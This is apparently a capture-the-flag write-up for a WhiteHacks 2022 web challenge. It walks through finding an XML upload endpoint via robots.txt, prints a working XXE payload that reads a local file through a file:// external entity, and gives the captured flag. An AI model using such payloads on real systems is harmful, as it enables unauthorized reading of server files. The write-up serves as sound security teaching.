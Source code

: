 # ransom_console-1

## Description

Author: Louis (l0j0)

Difficulty: Medium

Space Department has found a web server where Shadowcore, a group of ransomware operators providing Ransomware-as-a-Service in Planet X26-10EG, monitors their C2 server from.

Challenge Access: \
[http://challenges1.whitehacks.xyz:5001](http://challenges1.whitehacks.xyz:5001)
[http://challenges2.whitehacks.xyz:5001](http://challenges1.whitehacks.xyz:5001)

Let's retrieve their SSH key from the home directory at /home/r4s0m_4d1m1n/flag.txt so that we can access their C2 Server directly.

## Solution

_Solved by [@fishjojo1](https://github.com/fishjojo1)_

### Recon!

Upon visiting the site provided, we are greeted by

![sign in page](/images/whitehacks-2022/ransom-console-1-1.png)

Username and password fields...look interesting, but after playing around with a little, I didn't really get anywhere.

The **right** answer here would be to go thru a basic checklist of sorts, looking at common directories like .git, robots.txt etc etc.

_However_, if you had taken a look at ransom_console-2 — part 2 of the challenge, you would have spotted this.

> Shadowcore discovered we stole their keys due to strong monitoring system on their upload page and discover what we were up to. They have hidden the key somewhere else. Fortunately, for us, we have managed to extract a snippet of their source code for their new dashboard they created as we were kicked out of their server. Let's hack them again, this time putting an end to all their operations.

“their upload page” — hmm...perhaps we should check /uploads?

Alternatively,

Looking at robots.txt

```
User-agent: *
Disallow: /upload /dashboard
```

Lets check /upload and /dashboard out, upload looks interesting

### Playing around

![upload page](/images/whitehacks-2022/ransom-console-1-2.png)

What we find in /upload

Had no clue what config file meant, but when in doubt, upload something random, lets try an image

We are redirected to

> Internal Server Error
>
> The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.

Not very useful...but taking a look at the url we're redirected to —[http://challenges1.whitehacks.xyz:5001/xml-parse](http://challenges1.whitehacks.xyz:5001/xml-parse)

This hopefully tells us, it's some sort of xml parser. Let's pass in some sample xml then

Grabbed some sample xml from —> [https://docs.microsoft.com/en-us/previous-versions/windows/desktop/ms762271(v=vs.85)](<https://docs.microsoft.com/en-us/previous-versions/windows/desktop/ms762271(v=vs.85)>)

![upload page but with stuff](/images/whitehacks-2022/ransom-console-1-3.png)

Sweet! We see that we get the parsed xml.

### The exploit

XML has it's share of problems, here's one — XXE

[Here's](<https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing>) a nice read

XML supports processing of _entities_, variables if you will, which will allow us to perform the funny.

Let's take a look at the exploit:

```jsx
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/r4s0m_4d1m1n/flag.txt"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

Here, we know that the flag is stored in /home/r4s0m_4d1m1n/flag.txt, now how to read it?

`<!ENTITY xxe SYSTEM "file:///home/r4s0m_4d1m1n/flag.txt">` declares an external entity(read: variable), with the `SYSTEM` keyword, and the file: schema. In essence, it declares a varibale `xxe`, with the value of `/home/r4s0m_4d1m1n/flag.txt`. And we get the flag!

`WH2022{SSH_KeY5_ST0L3n_8y_U5}`

Recommended reading: \
[https://portswigger.net/web-security/xxe/xml-entities](https://portswigger.net/web-security/xxe/xml-entities)
